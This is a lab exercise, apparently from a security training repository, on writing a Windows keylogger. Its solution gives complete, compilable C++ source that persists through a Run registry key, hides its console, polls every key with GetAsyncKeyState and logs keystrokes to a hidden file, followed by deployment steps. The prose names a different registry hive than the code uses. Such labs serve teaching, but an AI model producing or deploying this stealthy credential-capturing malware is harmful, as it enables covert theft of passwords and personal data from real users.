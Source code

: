 # Write A Standalone Keylogger
A keylogger is a type of malware used in cyberattacks to steal sensitive information by recording keystrokes on a victim's computer. Often installed covertly through phishing emails, it captures login credentials and personal data for attackers to misuse


## References
- [Keystroke Logging](https://en.wikipedia.org/wiki/Keystroke_logging) by Wikipedia
- [GetAsyncKeyState](https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-getasynckeystate) by Microsoft
- [Keylogger](https://github.com/shubhangi-singh21/Keylogger) by shubhangi-singh21 on GitHub


## Tasks
- Setup a Windows VM
- Write a custom keylogger program with the following capabilities
  - The program starts executing when the system boots
  - The program runs as a background process without affecting any foreground processes
  - The program logs all user keystrokes in hidden files on the same disk
  - The program must use minimal resources to avoid detection
- Keylogger Creation Guidelines
  - You can use Windows APIs in your program
  - Use a programming language of your choice
  - Compile the program into a binary for deployment
- Deploy the keylogger binary in your VM
- Configure the keylogger to execute when the system starts
- Open a web browser and input a fictional username and password into a login form


## Benchmarks
- Validate that your keylogger starts at system boot time
- Validate that your keylogger records all keystrokes in hidden files
- Validate that your keylogger runs as a background process (you can view the active process listing in 'Task Manager')


## Solutions With Scripts
1. Save the following C++ program and compile it into a binary file called `keylogger.exe` to be used in a Windows 10 VM
   ```
    #include <iostream>
    #include <windows.h>
    
    using namespace std;
    
    int Save(int _key, char *file);
    
    void AddToStartup() {
        char filePath[MAX_PATH];
        GetModuleFileName(NULL, filePath, MAX_PATH);
        HKEY hKey;
        RegOpenKey(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
        RegSetValueEx(hKey, "MyKeylogger", 0, REG_SZ, (BYTE*)filePath, strlen(filePath) + 1);
        RegCloseKey(hKey);
    }
    
    void HideLogFile() {
        SetFileAttributes("log.txt", FILE_ATTRIBUTE_HIDDEN);
    }
    
    int main() {
        FreeConsole();
        AddToStartup();
        HideLogFile();
    
        char i;
        while (true) {
            Sleep(10);
            for (i = 8; i <= 255; i++) {
                if (GetAsyncKeyState(i) == -32767) {
                    Save(i, (char*)"log.txt");
                }
            }
        }
        return 0;
    }
    
    int Save(int _key, char *file) {
        FILE *OUTPUT_FILE;
        OUTPUT_FILE = fopen(file, "a+");
        switch (_key) {
            case VK_SHIFT: fprintf(OUTPUT_FILE, "[SHIFT]"); break;
            case VK_BACK: fprintf(OUTPUT_FILE, "[BACKSPACE]"); break;
            case VK_LBUTTON: fprintf(OUTPUT_FILE, "[LBUTTON]"); break;
            case VK_RBUTTON: fprintf(OUTPUT_FILE, "[RBUTTON]"); break;
            case VK_RETURN: fprintf(OUTPUT_FILE, "[ENTER]"); break;
            case VK_TAB: fprintf(OUTPUT_FILE, "[TAB]"); break;
            case VK_ESCAPE: fprintf(OUTPUT_FILE, "[ESCAPE]"); break;
            case VK_CONTROL: fprintf(OUTPUT_FILE, "[CTRL]"); break;
            case VK_MENU: fprintf(OUTPUT_FILE, "[ALT]"); break;
            case VK_CAPITAL: fprintf(OUTPUT_FILE, "[CAPS LOCK]"); break;
            case VK_SPACE: fprintf(OUTPUT_FILE, "[SPACE]"); break;
        }
        fprintf(OUTPUT_FILE, "%s", &_key);
        fclose(OUTPUT_FILE);
        return 0;
    }
   ```
2. Save the following HTML file as `login.html` for the purpose of inputting a fictional username and password in the login form
   ```
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Demo Login Page</title>
    </head>
    <body>
        <h1>Login</h1>
        <form>
            <label for="username">Username:</label><br>
            <input type="text" id="username" name="username"><br><br>
            <label for="password">Password:</label><br>
            <input type="password" id="password" name="password"><br><br>
            <button type="submit">Login</button>
        </form>
    </body>
    </html>
   ```
3. Execute `keylogger.exe` with admin privileges. It will now run as a process in the Task Manager
   ![image](https://github.com/user-attachments/assets/831ccbab-c58a-46ba-b90d-09afd2b7fd5f)

5. Reboot the Windows 10 VM. Since the keylogger executable creates an entry in the registry at `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, it will autorun at startup
   ![image](https://github.com/user-attachments/assets/9dc68225-187c-4afe-a4d8-dc935422cc7a)
   This can also be found in the Startup tab in Task Manager. Note that multiple registry entries in different registry locations will create multiple startup instances
   ![image](https://github.com/user-attachments/assets/1a3117e6-17b0-4727-bc1c-583ef2b79968)
7. Open `login.html` in a web browser. Show that the keylogger records all keystrokes in hidden files
   
